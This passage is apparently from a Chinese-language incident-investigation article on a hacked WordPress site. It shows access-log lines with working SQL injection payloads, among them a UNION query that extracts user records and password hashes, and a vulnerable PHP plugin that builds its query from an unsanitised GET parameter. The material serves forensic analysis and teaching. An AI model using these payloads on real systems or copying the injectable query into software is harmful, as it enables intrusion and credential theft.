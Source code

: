 ```
84.55.41.57- - [14/Apr/2016:08:22:13 0100] "GET /wordpress/wp-content/plugins/custom_plugin/check_user.php?userid=1 AND (SELECT 6810 FROM(SELECT COUNT(*),CONCAT(0x7171787671,(SELECT (ELT(6810=6810,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) HTTP/1.1" 200 166 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)"<br>84.55.41.57- - [14/Apr/2016:08:22:13 0100] "GET /wordpress/wp-content/plugins/custom_plugin/check_user.php?userid=(SELECT 7505 FROM(SELECT COUNT(*),CONCAT(0x7171787671,(SELECT (ELT(7505=7505,1))),0x71707a7871,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.CHARACTER_SETS GROUP BY x)a) HTTP/1.1" 200 166 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)"<br>84.55.41.57- - [14/Apr/2016:08:22:13 0100] "GET /wordpress/wp-content/plugins/custom_plugin/check_user.php?userid=(SELECT CONCAT(0x7171787671,(SELECT (ELT(1399=1399,1))),0x71707a7871)) HTTP/1.1" 200 166 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)"<br>84.55.41.57- - [14/Apr/2016:08:22:27 0100] "GET /wordpress/wp-content/plugins/custom_plugin/check_user.php?userid=1 UNION ALL SELECT CONCAT(0x7171787671,0x537653544175467a724f,0x71707a7871),NULL,NULL-- HTTP/1.1" 200 182 "-" "Mozilla/5.0 (Windows; U; Windows NT 6.1; ru; rv:1.9.2.3) Gecko/20100401 Firefox/4.0 (.NET CLR 3.5.30729)"<br>
```

我们假设这个插件是系统管理员从网上直接下载并拷贝到网站之中的，而这个脚本可以根据给定的ID来查询用户的合法性。该插件在网站的主页面中提供了一个表单，该表单会向/wordpress/wp-content/plugins/custom_plugin/check_user.php发送一个AJAX GET请求。<br>

通过对check_user.php文件进行了分析之后，我们发现这个脚本的代码写得非常烂，而且存在SQL注入漏洞：



```
&lt;?php<br>//Include the WordPress header<br>include('/wordpress/wp-header.php');<br>global $wpdb;<br>// Use the GET parameter ‘userid’ as user input<br>$id=$_GET['userid'];<br>// Make a query to the database with the value the user supplied in the SQL statement <br>$users = $wpdb-&gt;get_results( "SELECT * FROM users WHERE user_id=$id");<br>?&gt;<br>
```

上述信息表明，攻击者使用了SQL注入工具来利用这个插件所带来的SQL注入漏洞，而且这款漏洞利用工具尝试了多种SQL注入技术来枚举数据库名、表名和列名:<br>

```
/wordpress/wp-content/plugins/my_custom_plugin/check_user.php?userid=-6859 UNION ALL SELECT (SELECT CONCAT(0x7171787671,IFNULL(CAST(ID AS CHAR),0x20),0x616474686c76,IFNULL(CAST(display_name AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_activation_key AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_email AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_login AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_nicename AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_pass AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_registered AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_status AS CHAR),0x20),0x616474686c76,IFNULL(CAST(user_url AS CHAR),0x20),0x71707a7871) FROM wp.wp_users LIMIT 0,1),NULL,NULL--<br>
```

注：有关SQL注入漏洞的解决方案请参考[这篇文章](https://www.acunetix.com/blog/articles/preventing-and-fixing-sql-injection-vulnerabilities-in-php-applications/)。<br>

上述信息足以表明网站的WordPress数据库遭到了攻击，而数据库中存储的数据很可能已经发生了泄露。

**<br>**

**分析**



通过此次调查，我们得出了攻击者的攻击事件链。

[![](https://p1.ssl.qhimg.com/t01c6c557d8976fe82b.png)](https://p1.ssl.qhimg.com/t01c6c557d8976fe82b.png)
